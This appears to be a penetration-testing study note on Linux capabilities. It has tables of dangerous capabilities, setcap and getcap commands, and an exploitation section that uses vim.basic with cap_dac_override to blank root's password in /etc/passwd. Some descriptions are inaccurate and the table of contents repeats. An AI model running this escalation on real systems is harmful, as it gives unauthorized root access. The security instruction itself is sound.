## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Table of Contents](#Table\of\Contents)
      - [Set Capability](#Set\Capability)
    - [Enumerating Capabilities](#Enumerating\Capabilities)
      - [Exploitation](#Exploitation)

## Table of Contents

  - [Table of Contents](#Table\of\Contents)
      - [Set Capability](#Set\Capability)
    - [Enumerating Capabilities](#Enumerating\Capabilities)
      - [Exploitation](#Exploitation)

## Table of Contents

- [Set Capability](#Set\Capability)
    - [Enumerating Capabilities](#Enumerating\Capabilities)
      - [Exploitation](#Exploitation)

Linux capabilities are a security feature in the Linux operating system that allows specific privileges to be granted to **processes**, allowing them to perform specific actions that would otherwise be restricted. this allows for more fine-grained control over which processes have access to certain privileges, making it more secure than the traditional Unix model of granting privileges to users and groups.






Like any security feature, linux capabilities are not invulnerable and can be exploited by attackers. One common vulnerability is using capabilties to gran privileges that are not adequately sandboxed or isolated from other processes, allowing us to escalate their privileges and gain access to sensitive information to perform unauthorized actions.

Another protential vulnerability is the misuse or overuse of capabilities, which can result in processes having more privileges than they need. This can create unnecessary security risks, as we could exploit these privileges to gain access to sensitive information or perform unauthorized actions


For example, we could use the following command to set the `cap_net_bind_service` capability for an executable:

#### Set Capability

Set Capability

```shell-session
gdxqpardo@htb[/htb]$ sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
```

When capabilities are set for a binary, it means that the binary will be able to perform specific actions that it would not be able to perform without the capabilities. For example, if the `cap_net_bind_service` capability is set for a binary, the binary will be able to bind to network ports, which is a privilege usually restricted.

Some capabilities, such as `cap_sys_admin`, which allows an executable to perform actions with administrative privileges, can be dangerous if they are not used properly. For example, we could exploit them to escalate their privileges, gain access to sensitive information, or perform unauthorized actions. Therefore, it is crucial to set these types of capabilities for properly sandboxed and isolated executables and avoid granting them unnecessarily.

|**Capability**|**Description**|
|:---:|:---:|
|`cap_sys_admin`|Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.|
|`cap_sys_chroot`|Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible.|
|`cap_sys_ptrace`|Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes.|
|`cap_sys_nice`|Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted.|
|`cap_sys_time`|Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways.|
|`cap_sys_resource`|Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated.|
|`cap_sys_module`|Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information.|
|`cap_net_bind_service`|Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions.|













When a binary is executed with capabilties, it can perform the actions that the capabilties allow. However, it will not be able to perform any actions not allowed by the capabilities. This allows more fine-grained control over the binary's privileges and can help prevent security vulnerabilities and unauthirzed access to sensitive information.

When using the `setcap` command to set capabilities for an executable in Linux, we need to specify the capability we want to set and the value we want to assign. the value we use will depend on the specific capability we are setting and the privileges we want to grant to the executable.

Here are some examples of values that we can use with the `setcap` command, along with a brief description of what they do:

|**Capability Values**|**Description**|
|:---:|:---:|
|`=`|This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable.|
|`+ep`|This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability.|
|`+ei`|This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions.|
|`+p`|This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it.|


Several Linux capabilities can be used to escalate a user's privileges to `root`, including:

|**Capability**|**Desciption**|
|:---:|:---:|
|`cap_setuid`|Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the `root` user.|
|`cap_setgid`|Allows to set its effective group ID, which can be used to gain the privileges of another group, including the `root` group.|
|`cap_sys_admin`|This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the `root` user, such as modifying system settings and mounting and unmounting file systems.|
|`cap_dac_override`|Allows bypassing of file read, write, and execute permission checks.|


### Enumerating Capabilities
It's import to note that these capabilites should be used with caution and only granted to trusted processes. They are often misused to gain unauthorized access to the system. 

Enumerate all existing capabilties for all existing binary executables on a Linux system:
```bash
find /usr/bin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \; 2>/dev/null
```

#### Exploitation
If we gained access to the system with a low-privilege account, then discovered the `dac_cap_override` capability:
```bash
getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

The `/usr/bin/vim.basic` binary is run without special privileges, such as with `sudo`. However, because the binary has the `cap_dac_override` cap set, it can escalate privileges of the user who runs it. 
1. Find the locationof the root users shell
`cat /etc/passwd | head -n1`
`root:x:0:0:root:/root:/bin/bash`
2. Use the `cap_dac_override` cap of the `/usr/bin/vim` binary to modify a system file:
```bash
/usr/bin/vim.basic /etc/passwd
```
3. Can also make these changes in a non-interactive mode:
```bash
echo -e ':%s/^root:[^:]*:/root::/\nwq' | /usr/bin/vim.basic -es /etc/passwd
cat /etc/passwd | head -n1
```











